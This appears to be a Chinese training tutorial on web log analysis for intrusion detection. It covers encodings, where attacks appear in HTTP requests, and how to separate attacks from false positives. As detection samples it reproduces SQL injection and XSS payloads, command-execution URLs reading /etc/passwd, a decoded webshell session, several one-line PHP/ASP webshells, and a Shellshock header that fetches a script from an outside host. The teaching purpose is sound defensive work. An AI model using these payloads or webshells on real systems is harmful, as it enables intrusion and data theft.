 

### 一.Web应用基础知识与工具

1、编码

编码方式: URL编码、
BASE64编码、
16进制编码、UTF-8编码
字符集: Unicode，GB2312， GBK等

16进制码
以x开头
GET /news/society/201210/2358322923.shtml"</script> <object data=jav\x61scr\x69pt:npsduc(uhg)>
红色部分16进制解码后如下
GET /news/society/201210/2358322923.shtml"</script><object data=javascript:npsduc(uhg)>
;
在线转换https://www.bejson.com/convert/ ox2str/

UNICODE编码:
以u、\u+、 &#x、&#开头
比如
\u0031\u0038\u0037\u0030\u0038\u0036\u0030\u0039\u0039\u0030\u0039
解码后是个手机号18708609909
在线转换https://www.online-toolz.com/tools/text-unicode-entities-convertor.php

Base64编码
base64是网络上最常见的用于传输8Bit字节代码的编码方式之一， 要求把每E
个8Bit的字节转换为四个6Bit的字节，在email传输中， 加密是肯定的，但是加密的
目的不是让用户发送非常安全的Email。这种加密方式主要就是“防君子不防小人”。
个人认为这个不能算加密，因为这种编码过程是可逆的

2、解码工具
3、数据提交方式

我们一般是通过GET、POST 、COOKIE
(俗称GPC)三部分提交参数请求给服务器的
GPC通常被利用提交恶意参数执行web应用层攻击,其它HTTP头部也可被攻击者利用
Type和id就是我们提交的请求，&
例:
为参数分隔符
POST /addnews.asp HTTP/1.1 t
GET /news.asp?type=5&id=123 HTTP/1.1<br>Accept: */*
Referer: http://www .test.com/index.asp
Accept- Language: zh-CN
User-Agent: Moilla/4.0 (compatible; MSIE 8.0 Cookie里也能提交参数请求， 分号;为参数分隔符
Accept- Encoding: gzip, deflate
Host: www.test. com
Connection: Keep- Alive
POST body提交参数请求，&为参数分隔符
Cookie: ASPSESSIONID=MIIDIPGCCJGAFJ
Title=test&content=test

4、常见脚本语言
5、日志还原

还原日志的前提是获取到攻击者发送的数据包内容
如何获取攻击者发送的数据?

1、防火墙:
防火墙内置数据中心会记录数据包内容
2、态势感知: .
态势感知外部威胁感知日志里面记录的数据包内容

两者都可以导出数据中心里面的日志，如果可以重现，可以防火墙上面直接
抓取数据包



URL+BASE64编码还原
例：开头讲到让客户抓狂的webshell日志
POST /upfiles/bak.php

ghost=**%40**eval**%01%28**base64_decode**%28%24**_POST**%5B**z0**%5D%29%29%3B**&z0=Q
GluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X
21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0**%2B**fCIpOzskRj1iYXNlNjRfZGVjb2RlK
CRfUE9TVFsiejEiXSk7JFA9QGZvcGVuKCRGLCJyIik7ZWNobyhAZnJlYWQoJFAsZmlsZXNpe
mUoJEYpKSk7QGZjbG9zZSgkUCk7O2VjaG8oInw8LSIpO2RpZSgpOw**%3D%3D**&z1=RDpc
XEFQTVNlcnY1LjIuNlxcd3d3XFxwaHBNeUFkbWluXFxjb25maWcuc2FtcGxlLmluYy5waH
A**%3D**

url解码一次

ghost=@eval(base64_decode($_POST[z0]));**&z0**=QGluaV9zZXQoImRpc3BsYXlfZXJyb3Jz
IiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDA
pO2VjaG8oIi0+fCIpOzskRj1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JFA9QGZvcGVuKCR
GLCJyIik7ZWNobyhAZnJlYWQoJFAsZmlsZXNpemUoJEYpKSk7QGZjbG9zZSgkUCk7O2Vja
G8oInw8LSIpO2RpZSgpOw==**&z1**=RDpcXEFQTVNlcnY1LjIuNlxcd3d3XFxwaHBNeUFkbW
luXFxjb25maWcuc2FtcGxlLmluYy5waHA=
将z0和z1进行BASE64解码如下

z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0
);echo(">|");;$F=base64_decode($_POST["z1"]);$P=@fopen($F,
"r");echo(@fread($P,filesize($F)));@fclose($P);;echo("|<-");die();
z1=D:\\APMServ5.2.6\\www\\phpMyAdmin\\config.sample.inc.php

可以看出来是菜刀工具连接PHPwebshell读取config.sample.inc.php内容的行为，
非误报

### 二.如何分析日志

#### 1、分析日志的目的

#### 2、攻击出现的位置



• Get、post 请求报文的url字段
• Get 、post请求报文的cookie字段
• Get、post请求报文的referer字段

![](Web日志分析/images/image-20220422102210891.png)

• xss攻击
• SQL注入
• 命令执行
• 文件包含
• 目录穿越
• webshell
• 信息泄露
• 网站扫描
cookie字段、referer字段、post表单字段和url请求类似

• Post请求报文的表单字段

![image-20220423131851782](Web日志分析/images/image-20220423131851782.png)

• Get 、post请求报文的user-agent字段  

User-agent 字段或者类似表示访问客户端软件的字段

1. 恶意爬虫：Python-urllib/2.6、Baidu-YunGuanCe-ScanBot(ce.baidu.com)
2. 扫描器：morfeus fucking scanner、 Accept:acunetix/wvs
3. sql注入漏洞：sqlmap/1.0.8.15#dev (http://sqlmap.org)
4. xss攻击：'%22()%26%25<ScRiPt%20>prompt(961668)</ScRiPt>
5. 其它非常特殊攻击 ：User-Agent: () { :; }; /bin/mkdir -p /share/HDB_DATA/.../ && /usr/bin/wget -q -c http://lliillii.altervista.org/io.php 0<&1 2>&1

• Post请求报文的表单字段
• Http应答页面

http报文负载部分
• webshell （请求和应答方向都可能）
• 信息泄露（应答方向）

总结:什么是攻击
• 在http报文头部，出现了一些不应该出现的字段
• url和post表单，referer、cookie出现了sql语句、系统命令、脚本代码(js代码、php代码)一般都不正
常
• 访问或者探测了一些敏感文件
• 应答报文可能泄露一些系敏感信息的



#### 3、攻击常见的语句

• sql**注入**

• 探测语句
• http://www.19cn.com/showdetail.asp?id=49 and 1=1
• http://www.19cn.com/showdetail.asp?id=49 or 1=1
• and char(124)%2Buser%2Bchar(124)=0 （注入类型判断）
• 权限判断
• and user>0 用户名
• and 1=(select IS_SRVROLEMEMBER('sysadmin')) 权限
• and exists (select * from sysobjects) 数据库类型判断sqlserver

• 查询数据

• and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) 查库名<br>•  and (select top 1 name from TestDB.dbo.sysobjects where xtype='U' and status>0 查表名<br>•  and (select count(字段名) from 表名)>0 猜字段<br>•  and (select top 1 len(username) from admin)=X 猜字段值<br>• http://localhost/mytest/sqlinject/?id=1+UNION+SELECT+1,password,3,username,5,6,7,8,9+FROM+useunion select猜解法•  数据
 and ascii(lower(substring((select top 1 name from sysobjects where xtype='u'), 1, 1))) > 116

```
REQUEST:
GET /webDisplay/ESite/English/DetailSubCollege.jsp?id=b27e56ef-d3b8-42e1-bf0b-6ca906ee6dec'and'x'='x 
HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; generic_01_01; InfoPath.1)
Host: www.sada.sh.edu.cn
Accept: */*
Cookie: JSESSIONID=77790B475346A1A5DDA5BB269EF64903
REQUEST:
GET
/plus/search.php?keyword=as&c=d&typeArr[111%3D@`\'`)+UnIon+seleCt+1,2,3,4,5,6,7,8,9,10,userid,12
,13,14,15,16,17,18,19,20,21,22,23,24,25,26,pwd,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42+from
+`%23@__admin`%23@`\'`+]=a HTTP/1.1
Accept: */*
Accept-Language: zh-cn
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
Cookie: JSESSIONID=0000dB5Hac5-0MrKRsyqX6sr-Lr:-1
Host: www.bcu.edu.cn


REQUEST:
POST /login/login.asp HTTP/1.1
Content-Length: 304
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Host: 211.68.97.16:12000
Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: sqlmap/1.0.4.19#dev (http://sqlmap.org)
Accept-Charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Connection: close
Pragma: no-cache
Cache-Control: no-cache,no-store
Content-Type: application/x-www-form-urlencoded; charset=utf-8
user_no=lNiv&user_pass=&u_type=4%' AND (SELECT 2017 FROM(SELECT
COUNT(*),CONCAT(0x7178766b71,(SELECT (ELT(2017=2017,1))),0x7178787171,FLOOR(RAND(0)*2))x
FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='&Submit=
+%B5%C7+%C2%BC+
2021/3/26


REQUEST:
POST /do/s_ rpc.php HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Host: www.edu.dl.cnContent-Length: 235
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, likeGecko) Chrome/27.0.1453.93 Safari/537.36queryString=111%df' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECTconcat(0x3a,username,0x3a,password,0x3a) from qb_members limit0,1),FLOOR(RAND(0)*2))X FROM information_  schema.tables GROUP BY X)a) #
  HTTP/1.1
 
 ication/x-www-form-urlencoded
 n
 5
 a/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like .1453.93 Safari/537.36
' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECTme,0x3a,password,0x3a) from qb_members limit
*2))X FROM information_schema.tables GROUP BY X)a) #内部资料 准达内部资
```

• xss**攻击**

```
REQUEST:
GET /CuteSoft_Client/'"()&%<ScRiPt >prompt(994848)</ScRiPt>/SpellCheck.aspx HTTP/1.1
Referer: http://emp.bcu.edu.cn/
Cookie: ASP.NET_SessionId=gd1kgz55m5wmrt45oorcal55;
ASPSESSIONIDASBQQBCS=MPNDNMCCBNGNECDGKAAIEDMF
Host: emp.bcu.edu.cn
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/28.0.1500.63 Safari/537.36
Accept: */*
REQUEST:
GET /error_page.htm?flag='+alert('XSS')+' HTTP/1.1
Host: tuan.midea.com.cn
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1）
```

• <script>alert("xss")</script> 脚本
• /</img src="javascript:alert('xss');"> 属性
• </img src="http://ha.ckers.org/xss.jpg">
• <body onload=alert('xss')> 事件
• <div style="background-image:url(javascript:alert('xss'))">
• <style type="text/javascript">alert('xss');</style>
• <style>@import'javascript:alert("xss")';</style>
• <link rel="stylesheet" href="http://ha.ckers.org/xss.css">



• **命令执行**

• GET /simple/tests/tmssql.php?do=phpinfo
• GET /detail.php?id=/winnt/system32/cmd.exe?/c+dir+c:%5c
• GET /cgi/maker/ptcmd.cgi?cmd=;cat+/tmp/config/usr.ini
• GET /cgi/maker/ptcmd.cgi?cmd=;cat+/etc/passwd

• **目录穿越**



• **webshell**

• <%eval request("sb")%>
• <%execute request("sb")%>
• <?php eval($_POST[sb]);?>
• <?php @eval($_POST[sb]);?>
• <?$_POST['sa']($_POST['sb']);?>
• <?php @preg_replace("/[email]/e",$_POST['h'],"error"); ?><br>•  <%eval(eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("123"))%><br>• <%r+k-es+k-p+k-on+k-se.co+k-d+k-e+k-p+k-age=936:e+k-v+k-a+k-lr+k-e+k-q+k-u+k-e+k-s+kt("c")%>(UTF-7编码格式的一句话木马)<br>
• <?php @$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";@$_/*-/*-*/($/*-/*- */{"_P"./*-/*-*/"OS"./*-/*-*/"T"}[/*-/*-*/0/*-/*-*/]);?>

• **信息泄露**

• 配置文件访问
• httpd.conf
• htaccess
• HTPASSWD
• boot.ini
• etc/passwd
• Php.ini
• Web.xml

• 特殊后缀
• .mdb、 .sql
• .bak、.sav、.old、.las
• .tmp、.temp
• .rar、.zip、.bz、gzip、tar
• .conf、inc、ini、bat
• .log、stats、statistics
• Web.xml

• 目录浏览
• Parent Directory
• Directory Listing For
• Index of /
• Welcome to the directory listing
• 错误信息
• 数据库错误信息
• 程序错误信息

• **网站扫描**

• 恶意爬虫
• 浏览器的user-agent字段一般都比较固定如: • User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1;
Trident/5.0) ——IE 9.0
• 不是浏览器的user-agent ，很可能就是爬虫
• 扫描软件： user-agent字段或者单独标示自己的软件
• 综合扫描器： wvs、 appscan
• 专用扫描器： sql注入
2021/3/26
准达内



#### 4、攻击常见的特点

攻击特点：
• 攻击一般都有一定的连续性，所以一段时间会产生多条日志，并且命中特
征id是有一定分布的，不能是只命中某个特征。
• 攻击一般都会借助工具进行，同一个IP地址日志间隔较小 ，可能一秒中产
生几条日志，明显不是人操作浏览器的行为。
• 攻击者可能会借助一定跳板，如果IP地址是国外的，攻击嫌疑较大

#### 5、攻击日志分析流程

**• 基于攻击IP地址方法分析（适用日志较多的情况）**
	• 找出一个明显的攻击行为的日志
	• 根据该日志找出攻击源IP地址
	• 筛选出针对该IP地址的日志，这种情况下基本都是攻击，没有误报
	• 针对该IP地址，利用前面介绍的知识，就可以看出攻击者都发起了哪些攻
击

**• 基于攻击方法分析（适用每类不太多的攻击）**
	• 看攻击语句，是否是明显攻击行为
	• 如果能看出是明显的行为，就可以确定是攻击
	• 如果不确定，还需要结合其他参数，
		源IP地址 ：是否出现过其他类型可以明确的攻击行为
		攻击时间：如果半夜或者凌晨活动比较频繁 ，可以怀疑为攻击。
		日志频率 ：一秒中出现几次日志，可以怀疑为攻击。
		攻击位置：国外的ip地址 ，可以怀疑为攻击
		报文语义分析：比如访问admin文件夹 ，可能是有攻击行为
上述几个参数可以组合分析，进一步确定攻击

问题 ：一些网站实现存在安全隐患 ，用户的一些正常流量，也可以被攻击者篡改，
直接发起攻击。
• 常见问题：
• url参数实现时直接传递sql语句
• url参数实现时可以传递js脚本
• url参数实现时用../进行目录穿越访问文件
• url参数实现时直接调用一些系统函数
• url参数可以进行域名重定向
• 系统配置存在安全隐患<br>• 通过参数直接传sql语句（ sql注入类误报）<br>• 通过参数直接传js脚本 （XSS中误报较多）<br>• 通过../穿越目录访问文件 （目录穿越误报）<br>• 通过url参数进行域名跳转（远程文件包含误报）<br>• 开启了目录访问功能（信息泄露）

攻击和正常应用区分不开

• 前面说的用户网站存在一定安全隐患是这种情况的一种
• 还有一种情况 ，用户的应用比较特殊，理论上所有规则都能误报
	• 用户是一个论坛类应用，可以提交任意东西，包括文章类
	• 用户是一个代码提交讨论网站，经常通过post表单提交代码
	• 这类应用主要体现在学校应用中较多

• 用户的应用是传一个文章，里面有攻击常见的关键字
![image-20220423135815265](Web日志分析/images/image-20220423135815265.png)

• 用户的应用是代码交流网站，传一段代码

![image-20220423135848012](Web日志分析/images/image-20220423135848012.png)

• 熟悉攻击产生位置
• 熟悉攻击常见语句
• 掌握攻击分析方法
• 常见误报原因及改进措施